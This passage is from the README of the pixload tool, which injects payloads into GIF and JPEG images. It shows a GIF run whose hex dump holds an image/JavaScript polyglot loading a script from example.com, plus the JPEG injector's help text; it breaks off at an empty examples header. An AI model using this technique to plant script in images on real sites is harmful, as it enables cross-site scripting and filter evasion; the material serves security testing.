 ##### Example

```sh
$ pixload-gif payload.gif
```

```
........ GIF Payload Creator/Injector .........
...............................................
... https://github.com/chinarulezzz/pixload ...
...............................................

[>] Generating output file
[✔] File saved to: payload.gif

[>] Injecting payload into payload.gif
[✔] Payload was injected successfully

payload.gif: GIF image data, version 87a, 10799 x 32

00000000  47 49 46 38 37 61 2f 2a  20 00 80 00 00 04 02 04  |GIF87a/* .......|
00000010  00 00 00 2c 00 00 00 00  20 00 20 00 00 02 1e 84  |...,.... . .....|
00000020  8f a9 cb ed 0f a3 9c b4  da 8b b3 de bc fb 0f 86  |................|
00000030  e2 48 96 e6 89 a6 ea ca  b6 ee 0b 9b 05 00 3b 2a  |.H............;*|
00000040  2f 3d 31 3b 3c 73 63 72  69 70 74 20 73 72 63 3d  |/=1;<script src=|
00000050  2f 2f 65 78 61 6d 70 6c  65 2e 63 6f 6d 3e 3c 2f  |//example.com></|
00000060  73 63 72 69 70 74 3e 3b                           |script>;|
00000068
```
See [pixload-gif(1)](https://github.com/chinarulezzz/pixload/blob/master/pixload-gif.1.pod)
manual page for more information.

### pixload-jpg

##### Help

```sh
$ pixload-jpg --help
```

```
Usage: pixload-jpg [OPTION]... FILE
Hide Payload/Malicious Code in JPEG images.

Mandatory arguments to long options are mandatory for short options too.
  -S, --section COM|DQT         set section for payload injection
  -P, --payload STRING          set payload for injection
  -v, --version                 print version and exit
  -h, --help                    print help and exit

If the output FILE already exists, then payload will be injected into this
existing file. Otherwise, the new one will be created.
```

##### Examples
